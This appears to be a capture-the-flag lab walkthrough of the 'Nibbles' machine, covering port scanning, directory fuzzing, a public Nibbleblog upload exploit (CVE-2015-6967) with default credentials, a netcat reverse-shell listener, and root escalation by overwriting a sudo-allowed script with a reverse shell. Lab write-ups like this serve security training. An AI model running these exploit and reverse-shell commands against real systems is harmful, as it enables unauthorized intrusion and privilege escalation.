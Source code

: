 ![[Pasted image 20240720105538.png]]

**Ping** 
```
ping 10.10.10.75 
```
![[Pasted image 20240616130540.png]]

**Nmap default Scan**
```
nmap 10.10.10.75 -oN dnmap
```
![[Pasted image 20240616130724.png]]

**Nmap Script and Service Scan**
```
nmap 10.10.10.75 -sC -sV -A -oN snmap
```
![[Pasted image 20240616130804.png]]

Nmap All Port Scan
```
nmap -p- --min-rate 10000 10.10.10.75 -sC -sV -A -oN anmap
```
![[Pasted image 20240616131404.png]]
No hidden ports.

On port 80
![[Pasted image 20240616131453.png]]
Nothing Interesting on the main page

On Source Code
![[Pasted image 20240616131546.png]]
So there must be something in /nibbleblog directory

On /nibbleblog
![[Pasted image 20240616131630.png]]
Coool...!

Gobuster Scan
```
gobuster dir -u http://10.10.10.75/nibbleblog -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,html,txt,bak,conf -s 200,204,301,302,307,403 -k --status-codes "" -o gobuster1.txt
```
![[Pasted image 20240616131829.png]]
Found some interesting directories.

On ffuf Scan
```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.75/nibbleblog/FUZZ -t 100 -o ffuf.txt
```
![[Pasted image 20240616131954.png]]

Lets read README file 
![[Pasted image 20240616133022.png]]
We got Version info

Will jump to Initial Foothold....!

Will Search for public Exploit.
![[Pasted image 20240616133130.png]]
Found one https://github.com/dix0nym/CVE-2015-6967

Will run the exploit accordingly
```
python3 exp.py --url http://10.10.10.75/nibbleblog/ --username admin --password nibbles --payload rev.php
```
![[Pasted image 20240616133212.png]]

Got shell
```
rlwrap nc -nvlp 443
```
![[Pasted image 20240616133238.png]]

Lets upgrade the shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
![[Pasted image 20240616133435.png]]

Found user.txt location
```
find / -type f -name "user.txt" 2>/dev/null
```
```
cd /home/nibbler
```
![[Pasted image 20240616133712.png]]

Got user.txt
![[Pasted image 20240616143402.png]]

Will jump to Privilege escalation....!




Will check our sudo privileges
```
sudo -l
```
![[Pasted image 20240616133911.png]]
Interesting...!

Lets check is there a file named monitor.sh or will create one
![[Pasted image 20240616134002.png]]
There a zip file

Will unzip it
```
unzip personal.zip
```
![[Pasted image 20240616134059.png]]
Got it...!

Will exploit this to escalate our Privileges

The original script
![[Pasted image 20240616142725.png]]

My permission on the file
```
ls -la
```
![[Pasted image 20240616142759.png]]

I have full permissions, so removed original script and replaced with my reverse shell script
```
cat monitor.sh
```
![[Pasted image 20240616142904.png]]

Now we can run this script as sudo
```
chmod +x monitor.sh
```
```
sudo ./monitor.sh
```
![[Pasted image 20240616143004.png]]

Set up listener to catch reverse shell
```
rlwrap nc -nvlp 443
```
![[Pasted image 20240616143109.png]]
Coool, got shell as root......!

Will get root.txt 
![[Pasted image 20240616143205.png]]



I'm done with Nibbles.....:)
